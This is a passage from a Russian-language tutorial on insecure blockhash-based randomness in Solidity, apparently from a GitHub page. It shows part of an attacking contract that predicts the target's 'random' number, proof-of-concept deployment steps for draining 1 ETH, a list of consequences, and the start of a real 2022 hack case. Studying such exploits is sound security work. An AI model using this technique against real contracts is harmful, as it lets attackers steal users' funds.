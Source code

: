 ```solidity
        uint256 seed = uint256(blockhash(block.number - 1));
        uint256 guess = (seed % 10) + 1;
        // Вызываем функцию guess с правильным числом
        target.guess(guess);
    }

    // Функция для проверки баланса атакующего контракта
    function getBal() public view returns (uint256) {
        return address(this).balance;
    }

    // Функция для получения эфира (для вывода средств)
    receive() external payable {}
}
```

**Как работает атака**:
1. Атакующий контракт вычисляет то же псевдослучайное число, что и уязвимый контракт, используя `blockhash(block.number - 1)`.
2. Число передается в функцию `guess`, что гарантирует выигрыш.
3. Поскольку все происходит в одной транзакции, блоковые данные совпадают, и атака успешна.

**Доказательство концепции**:
- Разверните `BadRandomContract` с 1 ETH (например, адрес: `0xAc40c9C8dADE7B9CF37aEBb49Ab49485eBD3510d`).
- Разверните `HackGuessingGame`, указав адрес уязвимого контракта.
- Вызовите функцию `attack`. Баланс атакующего контракта увеличится на 1 ETH.

Этот пример демонстрирует, как легко злоумышленник может предсказать результат PRNG, основанного на блоковых данных.

## Последствия уязвимости

Небезопасная генерация случайных чисел может привести к следующим последствиям:

- **Несправедливые результаты**: В играх или лотереях злоумышленники могут предсказывать выигрышные числа, получая незаслуженные награды.
- **Финансовые потери**: Контракты, полагающиеся на случайность, могут быть разграблены, что приводит к потере средств пользователей.
- **Утрата доверия**: Уязвимости подрывают репутацию платформы, отпугивая пользователей и инвесторов.
- **Усугубление других уязвимостей**: Небезопасная случайность может способствовать атакам повторного входа (reentrancy) или другим эксплойтам.
- **Манипуляции токенами**: В системах генерации токенов (например, NFT) злоумышленники могут манипулировать распределением, получая редкие активы.

## Реальные примеры атак

### 1. Roast Football Hack (5 декабря 2022)

**Обзор**: Протокол Roast Football был атакован из-за уязвимости в функции лотереи, использующей небезопасный PRNG. Злоумышленник (адрес: `0x5f7db41e`) покупал токены только при высокой вероятности выигрыша, украв 12 BNB за 50 попыток.
![image](https://github.com/user-attachments/assets/7da4ac18-7d18-49c1-8945-497a9e6eeb5d)
